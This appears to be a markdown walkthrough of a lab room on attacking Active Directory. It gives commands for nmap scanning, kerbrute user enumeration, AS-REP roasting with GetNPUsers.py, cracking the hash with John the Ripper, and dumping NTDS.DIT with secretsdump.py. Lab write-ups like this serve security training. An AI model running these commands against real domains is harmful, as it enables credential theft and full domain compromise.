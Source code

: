 # Attacktive Directory Room

- Performed nmap scan 

    `nmap -p- -A -nP 10.10.27.113`

    ![Nmap Results](2022-02-19-09-43-00.png)

- Found the DNS domain name `spookysec.local` 
- Used enum4linux to enumerate shares
  
  `enum4linux -a spookysec.local`

- Used `kerbrute` to check for valid usernames using `userlist.txt` 
  
  ```bash
  echo 10.10.27.113 spookysec.local > /etc/hosts
  kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
  ```

  ![Kerbrute Results](2022-02-19-09-41-36.png)


## Abusing Kerberos
- Using the usernames we got from Kerbrute we are going to use Impacket's tool "GetNPUsers.py" to perform an attack method called ASREPRoasting
  
```bash
python3 ./GetNPUsers.py spookysec.local/svc-admin -no-pass 
```

![GetNPUsers.py](2022-02-20-06-52-39.png)

- Used John the Ripper to crack the hash found for `svc-admin` account 

```bash
# kerbhash.txt simply contains the discovered hash from GetNPUsers.py 
john kerbhash.txt --wordlist=./passwordlist.txt
```


![John The Ripper ](2022-02-20-07-26-11.png)


## Enumerating SMB Shares 
- used `smbclient` to find more shares 

![smbmap results](2022-02-20-07-41-07.png)

- Used credentials and `smbclient` to connect to `backup` share 

![smbclient connecting](2022-02-21-16-27-21.png)

- Then used `base64 decode <<<` to decode the string found
- Using the `backup` user credentials to dump NTDS.DIT


  ```bash
  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup@spookysec.local 
  ```